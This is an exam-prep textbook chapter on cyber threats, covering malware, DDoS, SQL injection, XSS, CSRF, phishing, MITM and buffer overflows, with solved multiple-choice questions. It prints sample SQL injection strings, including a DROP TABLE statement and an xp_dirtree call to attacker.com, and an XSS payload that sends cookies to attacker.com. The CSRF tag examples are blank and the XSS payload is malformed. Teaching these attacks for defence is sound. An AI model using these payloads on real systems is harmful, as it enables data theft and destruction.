




# Chapter 3: Cyber Threats & Attacks

> **Exam Weightage:** 4–6 Qs in IBPS SO IT Officer Mains (Common in PK and GK sections)
>
> **Key Topics:** Malware types, DoS/DDoS, SQL Injection, XSS/CSRF, Phishing, MITM, Session Hijacking, Zero-day, Buffer Overflow

---

## Learning Objectives

After completing this chapter you will be able to:
- Classify malware types (virus, worm, trojan, ransomware, rootkit) based on propagation and payload.
- Distinguish between DoS and DDoS and describe attack vectors (SYN flood, amplification attacks).
- Explain SQL injection, XSS, and CSRF — root cause, exploitation mechanism, and mitigation.
- Identify social engineering techniques in phishing attacks.
- Describe Man-in-the-Middle attacks and their variants (ARP spoofing, DNS spoofing).
- Explain session hijacking and zero-day exploit characteristics.
- Describe buffer overflow and its prevention.
- Solve exam-style MCQs on attack identification, prevention mechanisms, and OWASP Top 10.

---

## Theory

### 3.1 Malware Types

Malware (malicious software) is any software intentionally designed to cause damage, steal data, or gain unauthorized access.

#### 3.1.1 Virus

- **Definition:** Malicious code that attaches itself to a host file (executable, script, document) and replicates when the host is executed.
- **Propagation:** Requires human action (opening infected file, running infected program)
- **Payload:** Can corrupt data, delete files, steal information, install backdoors
- **Examples:** CIH (Chernobyl), Melissa (macro virus), ILOVEYOU (VBScript worm/virus hybrid)
- **Detection:** Signature-based antivirus, behavioral analysis
- **Prevention:** Avoid opening untrusted attachments, use antivirus, keep OS patched

#### 3.1.2 Worm

- **Definition:** Standalone malware that replicates itself and spreads across networks without requiring a host file.
- **Propagation:** Self-propagating — exploits network vulnerabilities, emails, instant messaging
- **Unlike virus:** Does not need to attach to a host program; does not require human action to spread
- **Examples:** Morris (1988, first internet worm), Slammer (2003, SQL vulnerability, doubled every 8.5 seconds), Conficker (2008, infected millions), Blaster, Nimda
- **Impact:** Consumes bandwidth, overloads systems, can carry destructive payloads

**Key comparison — Virus vs Worm:**

| Feature | Virus | Worm |
|---------|-------|------|
| Host file required | Yes | No (standalone) |
| Human action needed | Yes | No (self-propagating) |
| Primary spreading | File to file | Network |
| Replication | Attaches to program | Copies itself |

#### 3.1.3 Trojan Horse

- **Definition:** Malware disguised as legitimate software to trick users into installing it.
- **Propagation:** Social engineering (appears as game, utility, update, crack)
- **Unlike virus/worm:** Does NOT self-replicate — relies entirely on deception
- **Payload:** Backdoor access, data theft, keylogging, creating botnet zombies
- **Examples:** Zeus (banking trojan), Emotet (spam/banking), SubSeven (RAT)
- **Types:**
  - **Remote Access Trojan (RAT):** Provides attacker with remote control
  - **Backdoor Trojan:** Opens specific port for unauthorized access
  - **Downloader Trojan:** Downloads additional malware
  - **Banking Trojan:** Steals financial credentials (form grabbing, web injects)
  - **DDoS Trojan:** Turns system into botnet node

#### 3.1.4 Ransomware

- **Definition:** Malware that encrypts the victim's files and demands payment (ransom, typically in cryptocurrency) for the decryption key.
- **Propagation:** Phishing emails (attachments/links), exploit kits, drive-by downloads
- **Encryption:** Typically AES/RSA hybrid (fast AES for files, RSA encrypts the AES key)
- **Examples:** WannaCry (2017 — used EternalBlue exploit, infected 230K systems globally), NotPetya (2017 — masqueraded as ransomware, actually wiper), Ryuk (targeted attacks on enterprises), LockBit (Ransomware-as-a-Service)

**Mitigation:**
- Regular backups (3-2-1 rule: 3 copies, 2 media types, 1 offsite)
- Patch management (WannaCry exploited MS17-010 — patch was available 2 months before)
- Email filtering, endpoint protection, least privilege, Network Segmentation

#### 3.1.5 Rootkit

- **Definition:** Malware that gains root/administrator-level access and hides its presence from detection tools.
- **Layers:**
  - **Firmware rootkit:** Hides in BIOS/UEFI (persists even after OS reinstall)
  - **Bootkit:** Infects Master Boot Record (MBR rootkit)
  - **Kernel rootkit:** Hooks system calls in OS kernel
  - **User-mode rootkit:** Intercepts DLL calls in user space
- **Detection:** Extremely difficult — may require offline analysis (boot from clean media, forensic tools)
- **Examples:** Sony BMG rootkit (2005 — actually DRM that hid itself), Stuxnet (2010 — used kernel rootkit components), Hacking Team's UEFI rootkit



### 3.2 DoS and DDoS Attacks

**Denial of Service (DoS):** Single source overwhelms target with traffic/requests.

**Distributed DoS (DDoS):** Multiple compromised systems (botnet) coordinate to attack target.

#### 3.2.1 SYN Flood Attack

- **Mechanism:** Exploits TCP three-way handshake. Attacker sends many SYN packets with spoofed source IP addresses (non-existent or unreachable). Server responds with SYN-ACK to spoofed IPs, allocates memory for half-open connections. Since the final ACK never arrives, connections remain in SYN_RECV state, eventually exhausting the backlog queue.
- **Target:** Server's connection table / memory
- **Mitigation:** SYN cookies (encode connection state in SYN-ACK sequence number — no memory allocated until ACK received), increase backlog queue, shorten timeout, rate limiting

**Normal TCP Handshake:** Client SYN → Server SYN-ACK → Client ACK (↔ connection established)

**SYN Flood:** Attacker SYN (spoofed) → Server SYN-ACK (to spoofed IP, never receives ACK) → backlog fills

#### 3.2.2 Amplification Attacks

- **Mechanism:** Attacker sends small queries with spoofed source IP (victim's IP) to publicly accessible servers (DNS, NTP, SSDP, Memcached). Servers send large responses to victim.
- **Amplification factor:** Response size ÷ Query size
  - DNS: up to 50× (query ~60 bytes, response ~3000 bytes with DNSSEC)
  - NTP (monlist): up to 556× (small query triggers list of up to 600 hosts)
  - Memcached: up to 51,000× (theoretical — request ~15 bytes, response up to 1MB)
- **Mitigation:** Source IP verification (BCP 38 — ingress/egress filtering), disable unnecessary services, rate limiting, DDoS protection services (Cloudflare, Akamai, AWS Shield)

#### 3.2.3 Other DDoS Vectors

| Attack Type | Layer | Mechanism | Mitigation |
|-------------|-------|-----------|------------|
| ICMP Flood (Ping Flood) | L3 | Overwhelm with ICMP echo requests | Rate limit ICMP, block external ICMP |
| HTTP Flood | L7 | Overwhelm web server with GET/POST requests | Rate limiting, WAF, CAPTCHA |
| Slowloris | L7 | Open many slow HTTP connections, keep them open | Limit concurrent connections, increase timeout |
| Ping of Death | L3 | Send malformed oversized ICMP packets (>65535 bytes) | Patch OS (fixed since 1997) |
| Teardrop | L3 | Send overlapping IP fragments | Patch OS |



### 3.3 SQL Injection

- **Root cause:** Unsanitized user input inserted directly into SQL queries
- **Impact:** Data breach, authentication bypass, data modification/deletion, remote code execution (in extreme cases)
- **Occurrence:** Anywhere user input is used to build SQL queries (login forms, search boxes, URL parameters)

**Example — Vulnerable code:**
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'guess'
```
- **Attack input:** username = `admin' --` (comment syntax)
- **Resulting query:** `SELECT * FROM users WHERE username = 'admin' --' AND password = 'guess'`
- **Effect:** Authenticates as admin without password (everything after `--` is commented out)

**Types of SQL Injection:**

| Type | Description | Example |
|------|-------------|---------|
| In-band (Error-based) | Attacker obtains data via error messages | `' OR 1=1 --` |
| In-band (Union-based) | Attacker uses UNION to combine results | `' UNION SELECT username,password FROM users --` |
| Blind (Boolean-based) | Attacker observes true/false responses | `' AND SUBSTRING(password,1,1)='a' --` (page loads or not) |
| Blind (Time-based) | Attacker observes response delay | `' IF (condition) WAITFOR DELAY '00:00:05' --` |
| Out-of-band | Attacker receives data via DNS/HTTP to attacker-controlled server | `'; EXEC xp_dirtree '//attacker.com/table' --` |

**Mitigation:**
1. **Parameterized queries (Prepared Statements)** — best defense, separates SQL code from data
2. **Stored procedures** — with careful parameter validation
3. **Input validation** — whitelist allowed characters/patterns
4. **Least privilege** — database account should have minimum required permissions
5. **WAF (Web Application Firewall)** — can detect and block SQLi patterns
6. **Escaping** — escape special characters (single quotes, etc.) — least reliable, can be bypassed

### 3.4 XSS and CSRF

#### 3.4.1 XSS (Cross-Site Scripting)

- **Root cause:** Application includes untrusted data in web pages without proper sanitization
- **Impact:** Session theft, cookie theft, redirection to malicious sites, keylogging, defacement
- **Payload:** `<script>`, `document.location='http://attacker.com/steal?cookie='+document.cookie</script>`
- Every user viewing the comment page executes the script, sending their cookies to the attacker

**Mitigation (XSS):**
1. **Output encoding/escaping** (context-specific: HTML entity, JavaScript, URL, CSS encoding)
2. **Content Security Policy (CSP)** — restricts which scripts can execute
3. **Input validation** (whitelist approach)
4. **HttpOnly cookies** — prevents JavaScript access to cookies (not a complete solution but reduces impact)
5. **DOM sanitization** — for DOM-based XSS

#### 3.4.2 CSRF (Cross-Site Request Forgery) — pronounced "sea-surf"

- **Root cause:** Application relies on cookie-based authentication without CSRF tokens — any site can forge requests to the app as the authenticated user
- **Impact:** Unauthorized actions performed on behalf of authenticated user (funds transfer, password change, email change)
- **Prerequisite:** Victim must be authenticated on target site when visiting attacker's page

**CSRF Attack Flow:**
1. Victim logs into bank.com (session cookie set)
2. Victim (without logging out) visits attacker's site (evil.com)
3. evil.com contains: ``
4. Browser automatically sends victim's session cookie along with request
5. bank.com processes the transfer because request appears to come from authenticated user

**Mitigation (CSRF):**
1. **CSRF tokens** — unique, unpredictable token embedded in forms; verified by server
2. **SameSite cookies** — `SameSite=Strict` or `SameSite=Lax` attribute prevents cookies from being sent in cross-site requests
3. **Origin/Referer header validation** — check that request originated from legitimate site
4. **Custom headers** — require `X-Requested-With: XMLHttpRequest` header (JavaScript cannot set this cross-origin without CORS)
5. **Re-authentication** for sensitive actions (password confirmation, OTP)

**XSS vs CSRF — Exam Comparison:**

| Feature | XSS | CSRF |
|---------|-----|------|
| Mechanism | Attacker injects script that executes in victim's browser | Attacker forges request using victim's session/authentication |
| What's exploited | Trust in user input (site trusts user input) | Trust in browser cookies (site trusts auth cookie) |
| State requirement | None | Victim must be authenticated on target site |
| Impact scope | Wide (cookie theft, keylogging, redirect) | Specific (execute privileged actions) |
| Persistence | Can be stored on server | Always one-time (per request) |



### 3.5 Phishing and Social Engineering

#### 3.5.1 Phishing

- **Definition:** Fraudulent attempt to obtain sensitive information (usernames, passwords, credit card details) by disguising as a trustworthy entity.
- **Delivery:** Email, SMS (smishing), voice calls (vishing)
- **Techniques:**
  - **Spear Phishing:** Targeted at specific individual/organization (uses personal details)
  - **Whaling:** Spear phishing targeting senior executives (C-level)
  - **Clone Phishing:** Legitimate email duplicated with malicious link/attachment
  - **Pharming:** DNS poisoning redirecting users to fake websites (even with correct URL)

**Phishing Indicators:**
- Spoofed sender address (e.g., `support@bank-secure.com` vs `support@bank.com`)
- Urgency / threats ("Your account will be closed in 24 hours")
- Generic greeting ("Dear Customer" instead of name)
- Suspicious links (hover to reveal; misspelled domains like `g00gle.com`)
- Attachments (PDF, DOC, ZIP) — common malware delivery
- Poor grammar and spelling
- Requests for sensitive information (banks never ask for passwords via email)

#### 3.5.2 Social Engineering

- **Definition:** Psychological manipulation of people to perform actions or divulge confidential information.
- **Principles (Cialdini):**
  - **Authority:** Pretend to be authority figure (IT support, manager, law enforcement)
  - **Urgency/Scarcity:** Create time pressure ("Act now or account will be locked")
  - **Familiarity/Liking:** Build rapport before requesting information
  - **Reciprocity:** Offer help/information before asking
  - **Social Proof:** "Everyone else has already done this"

**Common Techniques:**
| Technique | Description |
|-----------|-------------|
| **Baiting** | Leaving malware-infected USB drives in parking lots/restrooms |
| **Tailgating** (Piggybacking) | Following authorized person through secure door |
| **Pretexting** | Creating fabricated scenario to obtain information |
| **Quid Pro Quo** | Offering service/information in exchange for data |
| **Dumpster Diving** | Recovering sensitive documents from trash |

### 3.6 Man-in-the-Middle (MITM) Attacks

- **Definition:** Attacker secretly intercepts and possibly alters communication between two parties who believe they are communicating directly.
- **Prerequisite:** Attacker must be positioned on the communication path (same network segment, compromised router, ARP spoofing)

#### 3.6.1 ARP Spoofing (Local Network)

- **Mechanism:** Attacker sends forged ARP (Address Resolution Protocol) replies, associating their MAC address with the gateway's IP address. Victim's traffic meant for gateway is redirected to attacker.
- **Environment:** Local network (LAN, same broadcast domain)
- **Impact:** Traffic interception, session hijacking, credential theft
- **Mitigation:** Dynamic ARP Inspection (DAI on switches), static ARP entries, port security, encryption (TLS prevents content exposure but not interception)

#### 3.6.2 DNS Spoofing (DNS Cache Poisoning)

- **Mechanism:** Attacker injects forged DNS records into DNS resolver's cache. When victim's browser resolves `bank.com`, it gets attacker's IP address.
- **Impact:** Redirects victim to attacker's fake website (used for credential theft even with HTTPS — but will trigger certificate warnings)
- **Mitigation:** DNSSEC (DNS Security Extensions) — digitally signs DNS records, validates origin

#### 3.6.3 SSL Stripping

- **Mechanism:** Attacker intercepts HTTPS requests and downgrades to HTTP before forwarding to server. Victim sees HTTP (no padlock), but may not notice.
- **Mitigation:** HSTS (HTTP Strict Transport Security) — server tells browser to always use HTTPS; preloaded HSTS lists in browsers

### 3.7 Session Hijacking

- **Definition:** Attacker takes over an authenticated user session by stealing/guessing the session identifier.
- **Methods:**

| Method | Technique | Prevention |
|--------|-----------|------------|
| Session Prediction | Guessing weak session IDs (sequential, timestamp-based) | Use cryptographically random session IDs (CSRNG) |
| Session Sniffing | Capturing session cookie from unencrypted traffic | Use HTTPS for entire session (Secure flag on cookies) |
| Session Fixation | Attacker sets victim's session ID to known value before login | Regenerate session ID after successful login |
| XSS-based | Stealing cookie via injected JavaScript | HttpOnly cookie flag + CSP |
| MITM-based | Intercepting traffic and extracting session cookie | End-to-end encryption (TLS) |

**Session Hijacking Flow:**
1. Victim authenticates → server creates session with ID `abc123`
2. Session ID stored in cookie, transmitted with each request
3. Attacker obtains `abc123` (via sniffing / XSS / prediction)
4. Attacker sets cookie `abc123` in their browser → appears as authenticated user
5. Server processes attacker's requests as if they were the victim

### 3.8 Zero-Day Exploits

- **Definition:** Attack exploiting a vulnerability unknown to the software vendor (no patch exists at time of attack).
- **Timeline:** Vulnerability discovered → exploit developed → attack occurs → vendor notified → patch developed → patch deployed
- **Zero-day window:** The period between exploit release and patch deployment
- **Detection:** Extremely difficult — no signature, no known pattern
- **Defense strategies:**
  - Defense in depth (layered security)
  - Application whitelisting
  - Behavioral analysis / anomaly detection
  - Sandboxing
  - Bug bounty programs (ethical hackers find vulnerabilities before attackers)
  - Vulnerability disclosure policies

### 3.9 Buffer Overflow

- **Definition:** Program writes more data to a buffer than it can hold, overwriting adjacent memory locations.
- **Root cause:** No bounds checking on memory operations (common in C/C++ with `gets()`, `strcpy()`, `sprintf()`)
- **Exploitation:** Attacker overwrites the return address stored on the stack to point to injected shellcode (malicious machine code).
- **Prevention:**
  - **Stack canaries** — random value placed between buffer and return address; if overwritten, program terminates
  - **ASLR (Address Space Layout Randomization)** — randomizes memory addresses of process components
  - **NX/DEP (No-Execute / Data Execution Prevention)** — marks stack/heap as non-executable
  - **Safe functions** — use `strncpy()` instead of `strcpy()`, `snprintf()` instead of `sprintf()`
  - **Memory-safe languages** — Rust, Go, Java (garbage collection, bounds checking)



### 3.10 Solved MCQs (Exam Style)

**Q1.** Which attack involves sending overlapping IP fragments to crash the target system?

A) SYN flood  
B) Smurf attack  
C) Teardrop attack  
D) Ping of Death  

<details>
<summary>Show Answer</summary>

**Answer: C) Teardrop attack**

**Explanation:** The Teardrop attack sends IP fragments with overlapping offset values. When the target attempts to reassemble the fragments, the overlapping data causes the system to crash or reboot. This is a protocol-level exploit specific to IP fragment reassembly. Ping of Death involves oversized packets (>65535 bytes), not fragment overlap.
</details>

---

**Q2.** Which of the following is the most effective defense against SQL injection?

A) Input validation  
B) Parameterized queries (Prepared Statements)  
C) WAF (Web Application Firewall)  
D) Output encoding  

<details>
<summary>Show Answer</summary>

**Answer: B) Parameterized queries (Prepared Statements)**

**Explanation:** Prepared Statements separate SQL code from data — user input is bound as parameters, never concatenated directly into SQL. This completely prevents SQL injection regardless of the input content. Input validation and WAF are secondary defenses; output encoding prevents XSS, not SQLi.
</details>

---

**Q3.** In a CSRF attack, the primary reason the forged request is accepted by the server is:

A) The server does not validate the request origin  
B) The attacker knows the victim's password  
C) The browser automatically sends authentication cookies with the forged request  
D) The server has a weak TLS configuration  

<details>
<summary>Show Answer</summary>

**Answer: C) The browser automatically sends authentication cookies with the forged request**

**Explanation:** CSRF exploits the fact that browsers automatically include cookies in cross-origin requests (via img, script, iframe tags). The server receives a valid session cookie and processes the request as if it came from the authenticated user. The server cannot distinguish between a legitimate request and a forged one without additional CSRF protection (tokens, SameSite cookies, custom headers).
</details>

---

**Q4.** Which type of malware does NOT require human action to spread?

A) Virus  
B) Trojan  
C) Worm  
D) Ransomware  

<details>
<summary>Show Answer</summary>

**Answer: C) Worm**

**Explanation:** Worms are self-propagating — they automatically spread across networks by exploiting vulnerabilities, without requiring any user action. Viruses require a human to execute the infected host file. Trojans rely on users voluntarily installing them (deception). Ransomware typically requires user action (clicking link/opening attachment) to execute, though some variants spread via worm-like mechanisms.
</details>

---

**Q5.** What is the amplification factor of a DNS amplification attack?

A) Up to 10×  
B) Up to 50×  
C) Up to 556×  
D) Up to 51,000×  

<details>
<summary>Show Answer</summary>

**Answer: B) Up to 50×**

**Explanation:** DNS amplification can amplify traffic up to ~50× (small ~60-byte query can generate ~3000-byte response with DNSSEC records). NTP monlist command provides up to 556× amplification. Memcached can theoretically provide up to 51,000× amplification. DNS is the most commonly used amplification vector due to the large number of open DNS resolvers.
</details>

---

**Q6.** Which XSS type persists on the server and affects all users who view the affected page?

A) Reflected XSS  
B) Stored XSS  
C) DOM-based XSS  
D) Blind XSS  

<details>
<summary>Show Answer</summary>

**Answer: B) Stored XSS**

**Explanation:** Stored (persistent) XSS occurs when the malicious script is permanently stored on the server (in a database, comment field, profile field, etc.). Every user who views the affected page will execute the script. Reflected XSS only affects the user who clicks the crafted link. DOM-based XSS executes client-side without server involvement.
</details>

---

**Q7.** What is the primary difference between spear phishing and regular phishing?

A) Spear phishing targets specific individuals with personalized content  
B) Spear phishing uses SMS instead of email  
C) Spear phishing targets only high-net-worth individuals  
D) Spear phishing does not require a spoofed sender address  

<details>
<summary>Show Answer</summary>

**Answer: A) Spear phishing targets specific individuals with personalized content**

**Explanation:** Spear phishing is a targeted form of phishing where the attacker researches the victim (name, role, organization, interests) and crafts personalized messages to increase credibility. Regular phishing broadcasts the same generic message to millions of recipients. Whaling is spear phishing targeting senior executives specifically.
</details>

---

**Q8.** Which technique prevents buffer overflow by placing a guard value between the buffer and the return address on the stack?

A) ASLR  
B) Stack canary  
C) NX bit  
D) Address Sanitizer  

<details>
<summary>Show Answer</summary>

**Answer: B) Stack canary**

**Explanation:** A stack canary is a random value placed on the stack between the buffer and the return address. Before the function returns, the canary value is checked. If it has been overwritten (by a buffer overflow), the program terminates immediately. ASLR randomizes memory addresses, NX/DEP marks memory regions as non-executable — both are complementary defenses but do not use guard values.
</details>

---

**Q9.** SYN cookies are used to defend against which attack?

A) SYN flood  
B) DNS amplification  
C) HTTP flood  
D) Slowloris  

<details>
<summary>Show Answer</summary>

**Answer: A) SYN flood**

**Explanation:** SYN cookies defend against SYN flood attacks. The server encodes connection state information in the SYN-ACK sequence number (cookies), avoiding allocating memory for half-open connections until the final ACK arrives. This prevents the connection backlog from being exhausted. Other defenses include increasing the backlog queue size and shortening the SYN timeout.
</details>

---

**Q10.** The MBR (Master Boot Record) rootkit infects which component of the boot process?

A) Operating system kernel  
B) BIOS/UEFI firmware  
C) Boot sector of the hard disk  
D) Windows registry  

<details>
<summary>Show Answer</summary>

**Answer: C) Boot sector of the hard disk**

**Explanation:** A bootkit (MBR rootkit) infects the Master Boot Record — the first sector of the hard disk that executes during system startup, before the OS loads. It can thus intercept and hide from OS-level detection tools. Firmware rootkits infect BIOS/UEFI (even harder to detect). Kernel rootkits hook OS kernel functions.
</details>

---

## 📝 Solved Examples (20 MCQs)

**Q1.** An attacker sends a crafted SQL query as username: `' OR 1=1; DROP TABLE users; --`. What type of SQL injection is this?

A) Blind SQLi  
B) Union-based SQLi  
C) Error-based SQLi  
D) Second-order SQLi

<details>
<summary>Show Answer</summary>

**Answer: C) Error-based SQLi (with stacked queries)**

**Explanation:** This injection attempts to (1) bypass authentication with `OR 1=1` and (2) execute a DROP TABLE via stacked queries (`; DROP TABLE users; --`). Error-based SQLi exploits error messages from the database to extract information. The `--` comments out the rest of the query. Stacked queries (`;`) allow executing multiple statements. Parameterized queries would prevent this completely by separating SQL code from data.

**Note:** Many databases and drivers disable stacked queries by default (mitigation).
</details>

---

**Q2.** A SYN flood attack exhausts which resource on the target server?

A) CPU cycles  
B) TCP connection backlog queue  
C) Memory bandwidth  
D) Network interface throughput

<details>
<summary>Show Answer</summary>

**Answer: B) TCP connection backlog queue**

**Explanation:** SYN flood sends many SYN packets with spoofed source IPs. The server responds with SYN-ACK to the spoofed IP (which never sends the final ACK). The server allocates a Transmission Control Block (TCB) for each half-open connection in the backlog queue. When the queue fills (typically 128-1024 entries), new legitimate connection attempts are rejected. CPU and memory are secondary effects. SYN cookies solve this by encoding connection state in the SYN-ACK sequence number.
</details>

---

**Q3.** Which attack allows an attacker to inject malicious script into a web page that is then served to other users without requiring them to click a crafted link?

A) Reflected XSS  
B) Stored XSS  
C) DOM-based XSS  
D) CSRF

<details>
<summary>Show Answer</summary>

**Answer: B) Stored XSS (Persistent XSS)**

**Explanation:** Stored XSS occurs when user input containing malicious script is saved to the server (database, comment, profile field) and later served to all users viewing the page. Every visitor executes the script automatically. Reflected XSS requires the victim to click a crafted URL containing the script. DOM-based XSS occurs client-side via JavaScript modifying the DOM without server involvement. Stored XSS is the most dangerous because it affects many victims without requiring social engineering.
</details>

---

**Q4.** In a CSRF attack, what causes the browser to send the user's authentication cookie to the target site?

A) The attacker's JavaScript reads the cookie from the victim's browser  
B) The browser automatically includes cookies in cross-origin requests triggered by img/script/iframe tags  
C) The attacker modifies the DNS to redirect traffic  
D) The user manually enters their credentials on the attacker's page

<details>
<summary>Show Answer</summary>

**Answer: B) The browser automatically includes cookies in cross-origin requests**

**Explanation:** This is the fundamental mechanism of CSRF. When a page contains ``, the browser makes an HTTP GET request to bank.com with the cookies associated with bank.com (same-origin policy applies to cookie sending). The server receives a valid session cookie and cannot distinguish this forged request from a legitimate one. CSRF tokens, SameSite cookies, and custom headers mitigate this.

Key insight: CSRF exploits the fact that cookies are sent automatically by the browser, NOT that the attacker can read cookies (that would be XSS).
</details>

---

**Q5.** What is the amplification factor of a Memcached DDoS attack?

A) Up to 50×  
B) Up to 556×  
C) Up to 51,000×  
D) Up to 10,000×

<details>
<summary>Show Answer</summary>

**Answer: C) Up to 51,000×**

**Explanation:** Memcached (a distributed caching system) can amplify traffic by up to 51,000× when left exposed to the internet. A small 15-byte UDP request can generate a 1 MB response due to Memcached's default behavior of returning large cached objects. This is the highest amplification factor known. The 2018 GitHub DDoS attack (1.35 Tbps) exploited vulnerable Memcached servers. Mitigation: disable UDP, firewall port 11211, or upgrade Memcached (1.5.6+ disables UDP by default).
</details>

---

**Q6.** Which defense mechanism prevents buffer overflow by randomizing memory addresses of process components?

A) Stack canary  
B) ASLR  
C) NX bit  
D) DEP

<details>
<summary>Show Answer</summary>

**Answer: B) ASLR (Address Space Layout Randomization)**

**Explanation:** ASLR randomizes the base addresses of the stack, heap, libraries, and executable image each time a process starts. This makes it difficult for an attacker to predict the address of shellcode or ROP gadgets. Without ASLR, an attacker knows the exact addresses of functions like `system()` in libc. ASLR is combined with:
- **Stack canary:** Detects buffer overflows by checking a guard value
- **NX/DEP:** Marks memory pages as non-executable (no shellcode on stack)

